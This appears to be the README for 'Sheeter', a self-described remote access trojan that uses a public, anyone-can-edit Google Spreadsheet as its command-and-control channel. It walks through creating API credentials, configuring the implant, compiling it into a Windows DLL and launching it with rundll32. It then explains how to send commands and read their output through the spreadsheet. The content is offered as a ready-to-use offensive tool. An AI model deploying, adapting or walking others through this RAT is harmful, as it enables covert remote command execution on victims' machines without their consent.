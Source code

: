    _____ _    _ ______ ______ _______ ______ _____  
  / ____| |  | |  ____|  ____|__   __|  ____|  __ \ 
 | (___ | |__| | |__  | |__     | |  | |__  | |__) |
  \___ \|  __  |  __| |  __|    | |  |  __| |  _  / 
  ____) | |  | | |____| |____   | |  | |____| | \ \ 
 |_____/|_|  |_|______|______|  |_|  |______|_|  \_\
                                                    

		Sheeter - A google spreadsheet rat
		
You are probably better of reading the README at the main project folder

	
				------ Usage ------
				
				
				
Note!! You can skip to the "first run" section
if you don’t plan to make and changes or to recompile the project
	
------ Creating Credentials and Token files ------
This step is not a must, and you can skip it
in this step you will generate a new credentials and 
token files. you can also use the supplied ones for a quick
out of the box experience.

1. Create the credentials.json by going to the following link:
   https://developers.google.com/sheets/api/quickstart/go

   Then press the blue 
   "Enable the Google Sheets API"

2. Log in to you google account (if not already logged on)
3. Just give your project a name you like and press NEXT
4. Pick the "Desktop app" and press create
5. Download the file and save it in the Client folder.

Now if you chose to do this you MUST change the 'configFile' in the config.go
file in the stage1 Folder and recompile the whole thing.
you can just copy paste the content of the credentials.json to that value
but remember to escape all the " with \"


6. Create the Token by running the Client.py with the flag -g
	python client.py -g

if the credentials.json is correct and valid, two token files will be created
one json and one pickle.
the pickle file will be used by the scripts itself and will be sent and updated 
each time you run the script.
it will also be used when using the script in interactive mode to send a valid
token to the sheeter rat to be used for the api.

the token.json file contains the same token just in the json format and you 
need to put it inside config.go file under the 'googleToken' variable
THIS IS NOT A MUST IN YOU CAN LEAVE IT BLANK!

------ Configuration ------
In the stage1 folder there is a config.go file that contains all the configuration
options that can be supplied to the sheeter rat.

configFile - The contents of the Credentials.json file created in the previous step
			 Notice that this can be empty but no output will be returned back to the
			 spreadsheet.
			 
googleToken - The contents of the token.json file created in the previous step.
			  This can be empty as well and supplied later in the spreadsheet itself 
			  (The client.py does so automatically.)
			  
spreadsheetID - This is the spreadsheet id that will be used as a CNC
				This parameter is a must!

spreadsheetJsonTmplate - The template later used with the id to receive the json format
				of the spreadsheet. Notice that no google api is used.
				You should probably not change this
				

googleSpreadSheetPrivURL - The scope of permissions to be used, 'spreadsheets' is RW
						   You should probably not change this

regexCompiled - Regex that is used to get the spreadsheet data from the json.
				You should probably not change this.

flagSID - The random flag used to check if the command that supplied by the spreadsheet was 
		  Already executed.
		  You should probably not change this.

		  
loopSleepSeconds - Amount in the seconds to wait between spreadsheet checks

commandTimeout - Timeout to wait for the output of the commands that are executed.
				 Just so if there’s a blocking command, the rat wont stop.
				 
writeToDisk - Bool to determine if the rat should create an output file for the 
			  Commands being executed. you can use this as a backup in case the api
			  Stops Working.
			  
			  
outputFile - Path to the output file created when using 'writeToDisk'


------ Creating the CNC spreadsheet ------
The rat communicates over a google spreadsheet so you probably want to create one.

1. Go to your spreadsheets google page
	https://docs.google.com/spreadsheets
	
2. Create a new spreadsheet and name it however you like

3. Press the Share button and create a link

4. Make sure the link permissions are as followed:
	- Anyone with link can access it
	- Everyone is an editor

5. Go to the file option in the task bar and press "Publish to the web"
   Make sure that you publish the entire document.
   Make sure the "Automatically republish" option is on
   
6. Now you can use this spreadsheet as your cnc, make sure you copy your id from
   the URL, it should look something like this
   https://docs.google.com/spreadsheets/d/YOU ID IS HERE/edit#gid=0

----- Compiling ------
This is probably the trickiest part
You don’t have to compile a new project, just use the dll supplied in the 
release folder.

things you will need:

latest golang version.
python3
TDM-GCC <- http://tdm-gcc.tdragon.net/download

installing the go packages:
	go get -v -u google.golang.org/api/sheets/v4
	go get -v -u golang.org/x/oauth2/google

installing python packages:
	pip install --upgrade google-api-python-client google-auth-httplib2 google-auth-oauthlib


1. Open a new command prompt in your stage1 folder
1. Create archive and header files.
	
	go build -buildmode=c-archive

2. Move header files that have been created to the cfiles location
	move *.h cfiles\main.h
	move *.a sheeter.a

3. Compile whole project
	gcc -shared -pthread -o sheeter.dll cfiles\main.c sheeter.a -lwinmm -lntdll -lws2_32

4. Remove command just in case you want to recompile
	:del *.dll *.a *.h cfiles\*.h
	
If everything went smooth a dll should appear in your stage1 folder

----- First run ------

1. Running the client
First thing you want to make sure that your client.py is working
If you created a new spreadsheet and are not using the default one
make sure you change the CONST values in the client.py script or
have supplied the -id flag

We will be using the -i flag with the default spreadsheet to run our commands
There are some more useful flags you can use, you can run client.py with the -h flag
to see the help message


Command:
	python client.py -i

This will enter the interactive mode,
Type in some commands
press enter and then enter again to validate your commands
and check your spreadsheet file for changes.
If your spreadsheet changed then you are ready to go.

2. running the rat
I will use the already compiled dll in the release folder.
You can run the dll using a few methods but ill just use rundll32 with the Run
flag as its main function

Command:
	rundll32.exe sheeter.dll Run

Notice that no output will be created when running with rundll32.


3. Enjoying the fruits of your labour:
now you can use your client.py to run commands and check their output 